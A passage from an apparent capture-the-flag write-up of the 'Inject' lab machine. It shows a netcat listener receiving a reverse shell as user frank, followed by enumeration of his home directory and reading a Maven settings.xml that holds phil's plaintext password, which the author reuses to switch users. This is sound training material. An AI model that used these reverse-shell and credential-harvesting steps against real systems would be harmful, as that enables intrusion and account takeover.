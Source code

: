 ```bash
$ nc -klvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.11.204] 53222
bash: cannot set terminal process group (813): Inappropriate ioctl for device
bash: no job control in this shell
frank@inject:/$
```
## Configuration File

I tried to run `sudo`, but I did not have frank's password. I looked around frank's home directory and found an interesting settings file.

```bash
frank@inject:~$ sudo -l
[sudo] password for frank:

frank@inject:~$ ls -la
total 28
drwxr-xr-x 5 frank frank 4096 Feb  1 18:38 .
drwxr-xr-x 4 root  root  4096 Feb  1 18:38 ..
lrwxrwxrwx 1 root  root     9 Jan 24 13:57 .bash_history -> /dev/null
-rw-r--r-- 1 frank frank 3786 Apr 18  2022 .bashrc
drwx------ 2 frank frank 4096 Feb  1 18:38 .cache
drwxr-xr-x 3 frank frank 4096 Feb  1 18:38 .local
drwx------ 2 frank frank 4096 Feb  1 18:38 .m2
-rw-r--r-- 1 frank frank  807 Feb 25  2020 .profile

frank@inject:~$ ls .m2/
settings.xml

frank@inject:~$ cat .m2/settings.xml
<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
      <password>REDACTED</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>
```

It contained a password for phil. I tried it and it worked.
